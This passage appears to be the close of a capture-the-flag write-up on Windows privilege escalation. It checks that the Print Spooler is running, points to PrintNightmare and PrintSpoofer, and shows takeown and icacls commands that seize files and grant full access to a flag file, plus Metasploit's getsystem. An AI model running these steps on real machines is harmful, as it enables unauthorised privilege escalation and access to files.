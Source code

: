 I redacted the mad-long output so you can just get my point!

The printer spooler service is (almost) always running

```
C:\Users\Nekrotic\Desktop>powershell Get-Service -Name Spooler
powershell Get-Service -Name Spooler


Status   Name               DisplayName                           
------   ----               -----------                           
Running  Spooler            Print Spooler 

```
Now you got everything for a [PrintNightmare](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) or [PrinterSpoofer](https://github.com/itm4n/PrintSpoofer)


Next we got the ownership abuse in powershell to read the flag 

```
takeown /R /F *.*
icacls "root.txt" /q /c /t /grant Users:F
```

This doesnt make you system, but hey...you got the flag


And last but not least...if you used metasploit

`getsystem`

Yeah that's all it takes with metasploit! one.fricking.command!

Metasploit makes things look so easy! lol

I don't know if there are other methods but feel free to look for them!

Take care!
